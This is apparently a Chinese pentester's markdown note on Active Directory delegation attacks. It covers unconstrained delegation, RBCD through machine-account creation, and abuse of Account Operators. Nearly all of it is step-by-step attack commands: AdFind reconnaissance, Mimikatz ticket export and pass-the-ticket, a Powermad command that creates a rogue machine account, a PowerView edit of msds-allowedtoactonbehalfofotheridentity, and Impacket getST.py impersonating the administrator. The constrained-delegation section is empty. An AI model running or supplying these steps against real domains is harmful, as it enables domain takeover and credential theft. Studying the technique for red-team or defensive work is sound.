




# 委派攻击


委派攻击是 Active Directory 中最危险的横向移动技术之一，利用服务账户的 ​过度权限配置​ 模拟任意用户访问资源，最终接管整个域。

---


** 非约束委派攻击 (Unconstrained Delegation)​**

```
查询非约束委派的服务账户
AdFind -b "DC=god,DC=org" -f 
"((samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn

查询非约束委派的机器账户
AdFind -b "DC=god,DC=org" -f 
"((samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288))" dn
```
**利用过程:**
```
1.域控与委派机器通讯  
* [ ] 主动
net use \\webserver

* [ ] 钓鱼
钓鱼网站

2.导出票据到本地
mimikatz sekurlsa::tickets /export
3.导入内存
mimikatz kerberos:ptt (.....)
4.连接域控
shell dir \\owa2010cn-god\c$
```
**约束委派攻击 (Constrained Delegation)**


**基于资源的约束委派(RBCD)**




利用分类:
利用域用户主机加入
已知Acount Operators组用户拿下主机
结合HTLM Relay攻击拿下主机(CVE-2019-1040)


**利用与用户主机加入:**
利用条件:
1.允许创建机器账户
2.具有管理主机加入域的用户账户

过程:
```
1.判断是否有利用条件(AdFind.exe：一个用于查询Active Directory信息的命令行工具)
查询被与用户创建的机器账户列表
shell AdFind.exe -b "DC=xiaodi,DC=local" -f "(&(samAccountType=805306369))" cn mS-DS-CreatorSID

根据查出来的sid值找对应用户名
AdFind.exe -b "DC=xiaodi,DC=local" 
           -f "(&(objectsid=S-1-5-21-1695257952-3088263962-2055235443-1104))" 
           objectclass cn dn

2.新增机器账户
# 使用powershell创建
# 第一部分：解除执行策略限制
Set-ExecutionPolicy Bypass -Scope Process
# 第二部分：创建恶意机器账户
Import-Module .\Powermad.ps1;
New-MachineAccount -MachineAccount serviceA -Password $(ConvertTo-SecureString "123456" -AsPlainText -Force)


3.修改新增机器用户委派属性

获取新增账户的 ObjectSID
Import-Module .\PowerView.ps1;
Get-NetComputer serviceA -Properties objectsid

修改目标主机委派属性
import-module .\powerview.ps1;
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRWPDTLOCRSDRCWDWO;;S-1-5-21-1695257952-3088263962-2055235443-1104)";
$SDBytes = New-Object byte[] ($SD.BinaryLength);
$SD.GetBinaryForm($SDBytes,0);
Get-DomainComputer data | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes} -Verbose

4.请求票据后导入
利用serviceA申访问data主机cifs服务票据
python getST.py -dc-ip 192.168.3.33 xiaodi.local/serviceA\$:12345 
                -spn cifs/data.xiaodi.local 
                -impersonate administrator
                
导入:
mimikatz kerberos::ptc administrator.ccache
```

**已知Acount Operators组用户拿下主机**

```
dc 2012
datax  2008
test7 与用户加入

webadmin win7
webadmin与用户加入

sid值不同
被控用户属于Acount Operators组 不需要sid一致也可以进行RBCD攻击

查Acount Operators组成员
adfind.exe -h 192.168.3.33:389 -s subtree -b "CN=Account Operators,CN=Builtin,DC=xiaodi,DC=local" member
注:Account Operators 组默认权限：​可管理域内普通账户（创建/删除/修改密码）​，但无权修改管理员组,利用这个权限更改资源的指定的sid
后续利用同上


```


